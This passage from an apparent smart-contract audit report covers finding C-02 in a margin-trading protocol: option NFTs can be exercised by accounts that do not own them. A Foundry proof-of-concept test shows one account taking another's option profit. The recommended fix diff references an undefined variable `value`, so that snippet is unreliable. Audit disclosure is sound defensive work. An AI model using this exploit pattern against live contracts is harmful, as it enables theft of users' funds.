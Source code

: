 **Recommendations**

Use Chainlink oracles to get the price of the assets.

## High Risk
### [C-02] Option NFTs can be exercised by any account

**Severity**

**Impact:** High

**Likelihood:** High

**Description**

The `exercise` function flow does not check if the margin account owns the token to be exercised. This allows any account to exercise the options of another account and get its profit.

**Proof of concept**

```solidity
function test_exerciseByNotOwner() public {
    uint256 aliceAccountValue = marginTrading.calculateMarginAccountValue(marginAccountID[alice]);
    uint256 bobAccountValue = marginTrading.calculateMarginAccountValue(marginAccountID[bob]);
    uint256 aliceOptionID = optionID[alice];

    vm.prank(alice);
    marginTrading.provideERC721(marginAccountID[alice], address(hegicPositionsManager), aliceOptionID);

    vm.prank(bob);
    marginTrading.exercise(marginAccountID[bob], address(hegicPositionsManager), aliceOptionID);

    uint256 aliceAccountIncrease = marginTrading.calculateMarginAccountValue(marginAccountID[alice]) - aliceAccountValue;
    uint256 bobAccountIncrease = marginTrading.calculateMarginAccountValue(marginAccountID[bob]) - bobAccountValue;
    assert(aliceAccountIncrease == 0);
    assert(bobAccountIncrease == 1_000e6);
}
```

**Recommendations**

```diff
    function exercise(uint marginAccountID, address token, uint collateralTokenID) external nonReentrant onlyApprovedOrOwner(marginAccountID)  {
+       require(marginAccount.checkERC721Value(marginAccountID, token, value), "You are not allowed to execute this ERC721 token");
        marginAccount.exercise(marginAccountID, token, BASE_TOKEN, collateralTokenID, msg.sender);
```

## High Risk
### [C-03] Users can borrow tokens without generating debt shares

